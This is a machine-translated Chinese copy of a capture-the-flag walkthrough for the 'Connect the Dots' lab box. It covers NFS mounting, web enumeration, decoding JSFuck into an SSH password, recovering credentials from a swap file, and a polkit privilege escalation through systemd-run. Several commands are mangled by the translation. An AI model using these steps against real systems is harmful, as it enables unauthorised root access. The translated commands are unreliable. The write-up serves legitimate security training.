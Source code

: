 # 把这些点连接起来

> 原文：<https://infosecwriteups.com/connect-the-dots-98b876bd7891?source=collection_archive---------0----------------------->

欢迎来到“连点”演练，由令人敬畏的苏米特·维尔马制作的盒子，

领英:[https://www.linkedin.com/in/sumit-verma-125576129/](https://www.linkedin.com/in/sumit-verma-125576129/)

我们从 nmap 扫描开始:

**nmap–A–p-192 . 168 . 178 . 158**

![](img/06fe625f2d7d53d3e436653333de47f1.png)

我先检查一下有什么可以装载，因为我们的 nmap 扫描上显示了 nfs。

**show mount–e 192 . 168 . 178 . 158**

![](img/262335e505dc8b204d156a17dbc507e4.png)

我们可以看到/home/morris 可供挂载。因此，我创建了一个名为“mnt”的新目录，并将其安装在那里。

**mkdir mnt
mount–t NFS 192 . 168 . 178 . 158:/home/Morris mnt**

![](img/2a4c6d20e7884ea379e0fd83d5cb52a1.png)

进入“mnt”并列出内容。

**CD mnt
ls–la**

![](img/29185f12b7fa0e4a58b4538c656cf005.png)

我们可以在这里看到一些有趣的东西，但在花了一些时间后，我确定这是一个兔子洞，但非常欢迎你亲自尝试。:-)

所以我们转到一个网站。

![](img/f60c33fcd66fc186197fb8425562d91f.png)

当我环顾四周的时候，我喜欢发动迪尔布和尼克托，让他们跑起来。

**dirb**T14**http://192 . 168 . 178 . 158**

![](img/f6cbff634d296dba079712e08e2272c4.png)

正如我们所看到的，我们有一些有趣的目录要查看，还有 index.htm 和 index.html。所以我们可以把他们两个都查出来。

尼克托呢

**nikto–h**[**http://192 . 168 . 178 . 158**](http://192.168.178.158)

![](img/4694ca42efb1a5f5d18f126a9579f50e.png)

我们可以看到我们有 hits.txt。让我们检查一下。

**192 . 168 . 178 . 158/hits . txt**

![](img/40c49cceae2ceaec0fb0aa8c17f01e0e.png)

所以我们会记住这一点。:-)

检查 index.htm 的来源，我们可以看到一些笔记。

![](img/4e163bea89f79f55228fc1ebfe63adde.png)

所以我们可以看到有/mysite 目录和/register.html，还有一些挂在 text/javascript 中。

所以让我们来看看。

![](img/0ce298f67d1604da9b22aebfc9cc37f2.png)

Register.html 给了我们一个登录页面。

![](img/27fa39a0669556c5dfc4ebe283d8fbbf.png)

如果我们检查这个页面的源代码，我们可以看到唯一的文本/javascript 是 **bootstrap.min.cs** 所以让我们看看

![](img/84167392d08a746838e9f72104b47b7c.png)

当我们打开 bootstrap.min.cs 时，我们看到有一些变量，但是，这些字符到底是什么，对吗？！至少这是我的第一个想法。:-)

![](img/24b0ea5ea5d5ea38cf717ebd583993a1.png)

经过一番研究，我发现那是一种叫做 JSFuck 的编程语言。相当有趣。

我打了**“[]！谷歌上的 Javascript** ”。

![](img/3e9a781fd13975b5450c4c0f66f3f956.png)

我去了
[www.jsfuck.com](http://www.jsfuck.com)

我花了很多时间试图弄明白，因为每个变量都返回未定义的字符串。但是如果我们将所有变量的内容复制并粘贴在一起，我们就会得到我们想要的东西！

![](img/b916e72b981a97b06d2622e3802a3ccf.png)

于是我们有了 TryToGuessThisNorris @ 2k19。

我假设这些是登录页面的凭证，但是由于我尝试了所有可能的组合，我转到了其他内容，我发现这是用户 norris 的 ssh 密码。我们可以在 nmap 扫描中看到，ssh 在端口 7822 上是开放的。

所以我们以用户 norris 和密码 TryToGuessThisNorris @ 2k19 登录

**宋承宪** [**诺里斯@ 192 . 168 . 178 . 158**](mailto:norris@192.168.178.158)**–p 7822**

![](img/2eaef5e0b27b24c4caa454b23b7055ac.png)

**ls–la**

**卡特彼勒 user.txt**

厉害！我们有我们的用户标志！

![](img/eacd87c1e3985c317e02a024e48f602f.png)

所以转到/var/www/html，我们可以看到 secretfile 和. secretfile.swp。

**cd /var/www/html**

**ls -la**

![](img/088ea7c30ba1791bf68858bdb33e225f.png)

**猫的秘密文件**

![](img/4ae47d4348b468cee9e25b3f69acb842.png)

好的，我们不能下载 cat .secretfile.swp，但是我们可以下载它。因此，我们转到浏览器并导航到

**192 . 168 . 178 . 158/. secretfile . SWP**

下载并运行字符串

**strings .secretfile.swp**

![](img/4672f3492e17cd240f85c7842be5b0a3.png)

这里我们得到了一个密码，我希望它是 root 的，但是这太简单了

这是用户 morris 的密码。所以我们可以通过输入

**苏莫里斯**

以及密码 **blehguessme090**

![](img/890843df51bbb06069c16ff9172337ec.png)

现在我们可以检查 SUID 的档案了。

**find/-perm-4000–F2 型> /dev/null**

![](img/04bcd80a80353c56cc2736f1f8217357.png)

经过一些研究后，我唯一能想到的是尝试使用策略工具包进行权限提升**(请记住，这可能不是唯一的方法，您可以自行探索**)。

所以经过研究，我发现 policy kit 在评估 UID 方面有一个缺陷。(你可以自己研究)

**systemd–run–t bash**

我们输入用户 norris 的密码

**trytoguessthisnoris @ 2k 19**

我们现在是根了！！！

![](img/c77e2d0e76c0053748face84fe4d1f37.png)

我们导航到根目录，列出它并读取标志。

**光盘根目录**

**ls–la**

**猫根. txt**

![](img/c646dc075a69240d36a8410c475cb593.png)

总之，这是一个非常有趣的盒子！我期待着更多来自维尔马苏米特的 vm！感谢您的阅读，并希望有人学到了一些东西。:-)

伊凡一世

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)